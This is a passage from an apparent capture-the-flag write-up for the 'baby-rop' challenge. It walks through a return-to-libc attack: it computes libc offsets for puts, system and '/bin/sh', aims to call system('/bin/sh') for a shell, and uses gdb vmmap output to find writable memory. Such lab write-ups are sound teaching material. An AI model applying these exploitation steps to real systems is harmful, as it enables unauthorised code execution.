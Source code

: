 The address of puts ends in 5a0 now, so we can move on to the last step.

## RCE? Nope.

The simples method to get RCE now is to call system("/bin/sh"). The first thing we need to do is calculate LIBC's base address. The site I linked above also provides the offsets of some helpful functions. According to that list, puts is located at 0x0875a0, system at 0x055410 and a "/bin/sh" string at 0x1b75aa:

![LIBC offsets for the server's version](/images/baby_rop/offsets.png)

Another problem I wrote about is that system() is going to try to write some data to the stack by using the RBP register. We can find a memory adrees that is both readable and writeable by using gdb's vmmap command:

{% highlight auto %}
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop
0x00401000         0x00402000         r-xp	/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop
0x00402000         0x00403000         r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop
0x00403000         0x00404000         r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop
0x00404000         0x00405000         rw-p	/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop
0x00007f602c4a3000 0x00007f602c4ca000 r-xp	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007f602c4d4000 0x00007f602c4d6000 rw-p	mapped
0x00007f602c4d6000 0x00007f602c4fb000 r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu8_amd64.so
0x00007f602c4fb000 0x00007f602c673000 r-xp	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu8_amd64.so
0x00007f602c673000 0x00007f602c6bd000 r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu8_amd64.so
0x00007f602c6bd000 0x00007f602c6be000 ---p	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu8_amd64.so